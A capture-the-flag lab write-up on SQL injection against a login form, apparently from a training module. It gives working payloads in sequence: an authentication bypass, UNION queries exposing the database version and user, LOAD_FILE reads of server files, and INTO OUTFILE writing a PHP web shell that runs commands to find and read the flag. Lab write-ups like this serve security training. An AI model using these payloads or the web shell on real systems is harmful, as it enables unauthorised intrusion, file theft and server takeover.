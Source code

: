 With Burp suite, fuzz the username and password for SQL injection.

1) Create a proxy in the proxy section
2) Send the requests to the target website
3) Capture the requests and send them to the Intruder module
4) Select the wordlist from `/usr/share/wfuzz/wordlist/Injections`
5) Run the fuzzer and see which combinations generate errors

This combination works:

``` 
' or 0=0 # 
```

Get database info:

```
' UNION SELECT 1,2,3,4,@@version -- -
```

Column 1 is discarded by the database, columns 2,3,4,5 are displayed.
Unions can be done with 6 fields ignoring the first one.

Using: 

```
cn' UNION SELECT 1,2,3,4, user() -- -
```

The resulting user is `root@localhost`

Being root we can read and write everywhere, if the DB user has file read/write permissions.
We probe for file read permission:

```
a' UNION SELECT 1, LOAD_FILE("/var/www/html/dashboard/dashboard.php"),3,4,5-- -	
```

This works, so the user can read files. 
Now probing for write permission.

```
cn' UNION SELECT 1,2,3,4,'file written successfully!' into outfile '/var/www/html/dashboard/proof.txt' -- -
```

And it works. Now we can create a PHP web shell. This way we can navigate the system and find the flag. This query works.

```
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -
```

Once the shell is deployed, we can send shell commands as param 0:

http://mod33sec518:32695/dashboard/shell.php?0=ls%20/

This reveals that there is a flag_cae1dadcd174.txt file in the root directory.

http://mod33sec518:32695/dashboard/shell.php?0=cat%20/flag_cae1dadcd174.txt

Will show the flag.
Actually the flag can also be retrieved via:

```
a' UNION SELECT 1, LOAD_FILE("/flag_cae1dadcd174.txt"),3,4,5-- -	
```

This works but guessing the file name would be impossible so a shell was necessary to find the file name for the flag.